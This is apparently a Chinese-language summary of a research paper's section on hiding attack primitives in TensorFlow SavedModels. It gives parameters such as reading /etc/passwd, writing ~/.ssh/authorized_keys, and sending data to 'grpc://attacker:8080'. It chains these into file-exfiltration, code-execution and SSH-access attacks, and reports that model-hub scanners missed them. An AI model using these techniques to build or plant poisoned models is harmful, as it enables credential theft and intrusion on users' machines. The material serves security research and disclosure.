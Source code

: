 Practical Attacks against Model Hubs and Scanning Tools
---

## ✅ 5.1 攻击原语（Attack Primitives）

> 把单个 API 封装成“乐高积木”，每个原语只干一件事，可独立插入 SavedModel。

| 原语 # | 功能 | 关键技术 API | 参数要点 | 触发时机 |
|---|---|---|---|---|
| **❶ 任意文件读** | 把任意文件内容读进张量 | `ReadFile`, `FixedLengthRecordDatasetV2`, `ImmutableConst` 等 7 个 | `filename="/etc/passwd"` 或逐字节读取避免长度对齐 | 模型推理时 |
| **❷ 任意文件写** | 把张量内容写到任意路径 | `WriteFile`, `Save`, `PrintV2` 等 4 个 | `output_stream="file://~/.ssh/authorized_keys"` 支持追加写入 | 同上 |
| **❸ 目录遍历** | 枚举目录发现敏感文件 | `MatchingFiles`, `MatchingFilesDataset` 等 3 个 | 通配符如 `/home/*/.ssh/id_*` | 同上 |
| **❹ 网络发送** | 把张量数据发向任意 IP | `DebugIdentityV3`, `rpc_call`, `DataServiceDatasetV4` 等 5 个 | `debug_urls=["grpc://attacker:8080"]` | 同上 |
| **❺ 网络接收** | 从远程拉取数据/指令 | `rpc_client` | `server_address="attacker:5000"` | 同上 |

> 所有原语均 **自动触发，无需额外代码**，且 **不影响模型精度**（只增 <1% 节点）。

---

## ✅ 5.2 端到端攻击构造（4 种）

作者把原语像乐高一样组合，形成 4 个完整攻击链：

| 攻击名称 | 所需原语 | 具体流程 | 危害 |
|---|---|---|---|
| **文件泄露** | ❸→❶→❹ | 1. 用 MatchingFiles 找路径；2. ReadFile 读文件；3. DebugIdentityV3 外传 | 窃取任意敏感文件 |
| **IP 暴露** | ❹ | 让模型向恶意 gRPC 服务发一个包，服务器记录源 IP | 获取受害者公网或内网 IP |
| **代码执行** | ❷+❶ | 用 PrintV2 把恶意 Python 写入 `./tensorflow.py`，下次 `import tensorflow` 时优先加载本地同名文件 | 获得本地代码执行 |
| **Shell 访问** | ❸→❹→❷ | 1. MatchingFiles 找 `~/.ssh/authorized_keys`；2. DebugIdentityV3 把路径发到攻击者；3. 攻击者回传公钥，用 Save 写回文件 | 攻击者 SSH 登录受害者机器 |

> 攻击流程图见论文图 2、6、7、8，可直接复制代码复现。

---

## ✅ 5.3 实战验证（上传-下载-检测）

### 🧪 实验设计
- **目标模型**：Google Yamnet（声音分类，~3.9 M 参数）  
- **平台**：
  1. Hugging Face Hub（私有仓库）
  2. TensorFlow Hub（Kaggle 私有仓库）
  3. ModelScan 最新版
- **周期**：上传后保留 **两周**，观察平台扫描结果。

### 📊 检测结果
| 平台 / 工具 | 是否检出 | 备注 |
|---|---|---|
| **Hugging Face Hub** | ❌ 全部绕过 | 官方恶意模型扫描零告警 |
| **TensorFlow Hub (Kaggle)** | ❌ 全部绕过 | 无公开检测机制，两周无提示 |
| **ModelScan** | ❌ 全部绕过 | 仅对 `ReadFile/WriteFile` 报高危，可换 API 绕过 |

> **攻击模型结构、推理结果与原版 Yamnet 完全一致**，平台无法肉眼区分。

### 🕰️ 历史版本兼容性
- 用同样方法检查 **TF 1.0.0 → 2.15** 所有版本：  
  - **9 个关键 API（文件/网络）自 2015 年起就存在**，风险潜伏 8 年。  
  - 随着分布式训练需求，**2.x 新增更多网络原语**，攻击面持续扩大。

---

## 🎯 5 总结一句话
> 第 5 节把“理论能力”变成“实战武器”：**用 20 个 API 拼出 5 块积木、4 种攻击，真实模型、真实平台、零告警**，证明 TensorAbuse **不仅可行，而且正潜伏在现有生态中**。